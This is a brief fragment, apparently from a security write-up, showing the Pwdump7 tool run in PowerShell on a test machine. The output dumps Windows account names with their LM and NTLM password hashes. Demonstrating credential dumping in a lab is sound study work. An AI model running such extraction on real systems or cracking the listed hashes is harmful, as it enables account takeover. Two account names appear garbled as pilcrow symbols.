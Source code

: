https://www.tarasco.org/security/pwdump_7/

	PS C:\Users\testuser\Desktop\pwdump7> .\PwDump7.exe
	Pwdump v7.1 - raw password extractor
	Author: Andres Tarasco Acuna
	url: http://www.514.es

	Administrator:500:6FB46F5430AF91A3D6BDC980810753ED:2BE392DCD857D1EB24333AEDC2A48865:::
	Guest:501:CD34DDADD48DD654867DB3A52BDB4C4D:99CCC460A3C2EE003EA775C2C327E765:::
	¶:503:1902A42EDFCA08DFDB9C4CF19DFFB246:20B9F0746690132840F8AF15ED44C38B:::
	¶:504:18C462777C87270F0F952D7FE15DFCC2:3AF818F5C303FF5EE03BD535EF8324CA:::
	win10:1001:E3E72DF7FBF227D3CE0A7B46D3F7FAFE:C0B7EADE32B6EDB1C4213FBE7046A6D5:::
	nightmare:1005:38BB73A12AE80C2918390822F705C44F:BABB7F867960E08C76018E837CF8D53E:::